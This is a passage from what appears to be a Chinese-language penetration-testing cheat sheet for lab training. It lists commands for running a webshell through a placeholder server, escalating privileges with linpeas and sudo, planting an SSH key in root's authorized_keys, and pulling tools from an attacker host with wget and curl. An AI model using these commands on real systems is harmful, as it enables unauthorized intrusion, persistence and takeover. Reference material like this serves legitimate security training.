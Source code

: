 | `curl http://SERVER_IP:PORT/shell.php?cmd=id` | 在上传的Webshell上执行命令 |
| **提权** |
| `./linpeas.sh` | 运行`linpeas`脚本来枚举远程服务器 |
| `sudo -l` | 列出可用的`sudo`权限 |
| `sudo -u user /bin/echo Hello World!` | 使用`sudo`运行命令 |
| `sudo su -` | 切换到root用户（如果我们有`sudo su`访问权限） |
| `sudo su user -` | 切换到用户（如果我们有`sudo su`访问权限） |
| `ssh-keygen -f key` | 创建一个新的SSH密钥 |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | 将生成的公钥添加到用户 |
| `ssh root@10.10.10.10 -i key` | 使用生成的私钥SSH到服务器 |
| **文件传输** |
| `python3 -m http.server 8000` | 启动本地Web服务器 |
| `wget http://10.10.14.1:8000/linpeas.sh` | 从本地机器上下载文件到远程服务器 |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | 从本地机器上下载文件到远程服务器 |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | 使用`scp`将文件传输到远程服务器（需要SSH访问权限） |
| `base64 shell -w 0` | 将文件转换为`base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | 将文件从`base64`转换回其原始格式 |
| `md5sum shell` | 检查文件的`md5sum`以确保转换正确 |